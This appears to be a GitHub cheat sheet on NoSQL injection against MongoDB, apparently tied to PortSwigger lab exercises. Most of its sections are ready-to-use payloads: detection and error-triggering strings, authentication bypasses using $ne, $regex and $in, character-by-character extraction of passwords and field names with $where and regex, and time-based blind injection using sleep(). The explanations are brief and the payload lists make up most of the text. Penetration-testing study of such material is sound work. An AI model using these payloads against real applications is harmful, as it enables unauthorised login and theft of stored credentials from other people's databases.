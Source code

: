 # Table of Contents

1. [Basic Operator Difference Between SQLi & NoSQLi](#basic-operator-difference-between-sqli-nosqli)
2. [Detecting NoSQLi Vulnerability](#detecting-nosqli-vulnerability)
3. [NoSQL Operator Injection](#nosql-operator-injection)
4. [Submitting Query Operators](#submitting-query-operators)
5. [MongoDB Login Bypass](#mongodb-login-bypass)
6. [MongoDB Data Retrieving](#mongodb-data-retrieving)
7. [Operator Injection to Retrieve Unknown Data](#operator-injection-to-retrieve-unknown-data)
8. [Time-Based NoSQL Injection](#time-based-nosql-injection)
---

### Basic operator difference between SQLi && NoSQLi
  1. `or` >> `||`
  2. `and` >> `&&`
  3. `-- -` >> `%00`
---
### Detecting NoSQLi Vulnerability
**For MongoDB Detection:**
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
**Causing syntax error in MongoDB**
```
'
```
**Escaping the syntax error in MongoDB**
```
\'
```
Or we can try,
```
%00
```
**Injecting in JSON Format**
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```
**Others :**
```
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
{"$where": "sleep(5000)"}
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
### Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'||'1'=='1
'%00
```
**Example with explanation :**

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=Gifts' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.
  4. Same as 3.
### NoSQL operator injection

`$where` - Matches documents that satisfy a JavaScript expression.
<br>
`$ne` - Matches all values that are not equal to a specified value.
<br>
`$in` - Matches all of the values specified in an array.
<br>
`$regex` - Selects documents where values match a specified regular expression.
<br>
<br>
Details: [Portswigger](https://portswigger.net/web-security/nosql-injection#nosql-operator-injection)

### Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.
<br>
<br>
For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`.
<br>
<br>
If this doesn't work, you can try the following:
<br>
<br>
  `1.` Convert the request method from `GET` to `POST`.
  <br>
  `2.` Change the `Content-Type` header to `application/json`.
  <br>
  `3.` Add `JSON` to the `message body`.
  <br>
  `4.` Inject `query` operators in the `JSON`.
### MongoDB Login Bypass
```
{"$regex":"wien.*"} >> For username
{"$ne":"Invalid"} >> For password
{"$in":["admin","administrator","superadmin"]} >> For bruteforce
```
![Screenshot from 2024-07-12 03-55-31](https://github.com/user-attachments/assets/18902009-c2d8-4162-b5d8-7ebb221fd49e)
<br>
Note: We need to input atleast one valid credential to make a valid query.
<br>
If this doesn't work, you can try the following:

    1. Convert the request method from GET to POST.
    2. Change the Content-Type header to application/json.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.
### MongoDB Data Retrieving
Extracting Password:
```
' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL
{"username":"admin","password":{"$regex":"^a*"}} >> For extracting password via operator
```
### Identifying field names
```
' && this.anything && 'a'=='b >> Confirming if there is a field name
' && this.username!=' >> Identifying field names [Note: If there is a username field exists, it will response with different type of message]
' && this['u'] && 'a'=='b >> Retrieving field name character by character
' && this.u.s.e.r.n.a.m['e'] && 'a'=='b
```
### Operator Injection To Retrieving Unknown Data
```
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0
```
### Time based NoSQL Injection
```
{
  "username": "admin",
  "password": { "$where": "sleep(5000)" }
}
```
**Data Retrieve**
Initial Request
```
{
  "product": "Tablet",
  "price": 350,
}
```
Malformed Request
```
{
  "product": { "$eq": "Tablet" },
  "price": { "$where": "if (this.price > 300) { sleep(5000); return true; } return false;" }
}
```
